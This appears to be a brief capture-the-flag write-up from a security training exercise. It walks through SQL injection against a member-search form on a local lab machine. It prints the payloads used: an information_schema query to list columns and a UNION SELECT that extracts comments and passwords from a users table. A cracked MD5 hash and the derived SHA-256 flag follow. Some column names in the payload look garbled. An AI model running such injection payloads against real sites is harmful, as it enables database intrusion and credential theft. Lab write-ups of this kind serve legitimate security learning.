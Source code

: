 We have a form to fill at the page "http://192.168.56.102/?page=member".

<img width="1307" alt="Screen Shot 2021-12-10 at 2 15 46 PM" src="https://user-images.githubusercontent.com/64800542/145579818-6fa28415-7c3f-47f0-b6c4-a7bb4f375bab.png">

It looks like backend use the input from it right in an SQL statement, like in the previus example. So we can use it for an "injection".

Let's take a look on schema:

>SELECT table_name, column_name FROM information_schema.columns

Now we know all the columns and names.

Let's see what is inside the hidden columns:

>1 AND 1=2 UNION SELECT planet
>, CONCAT(Commentaire, countersign) FROM users;

<img width="1068" alt="Screen Shot 2021-12-10 at 2 16 33 PM" src="https://user-images.githubusercontent.com/64800542/145579847-e5aa13d8-3c92-4998-ad9c-efa91e766540.png">


>5ff9d0165b4f92b14994e5c685cdce28 >> md5 >> FortyTwo >> lower() >> sh256 >> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5





